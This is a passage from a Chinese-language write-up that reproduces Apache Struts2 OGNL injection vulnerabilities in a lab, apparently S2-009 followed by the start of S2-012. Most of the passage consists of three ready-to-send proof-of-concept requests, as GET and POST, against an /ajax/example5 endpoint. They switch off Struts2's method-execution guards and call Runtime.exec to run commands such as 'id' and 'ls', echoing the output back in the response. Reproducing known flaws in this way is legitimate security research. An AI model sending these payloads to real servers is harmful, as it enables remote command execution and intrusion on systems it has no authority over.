 `name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

创建文件poc

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
```

POC2:

```
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

![image-20201216150032398](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216150032398.png)

POC3:

```
POST /ajax/example5 HTTP/1.1

Accept: */*

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 425

Host: ********************

z[%28name%29%28%27meh%27%29]&age=12313&name=(#context["xwork.MethodAccessor.denyMethodExecution"]=false,#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec("id").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#s=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#s.println(#d),#s.close())(meh)


```



## 0X06 S2-012复现

**原理**：如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。
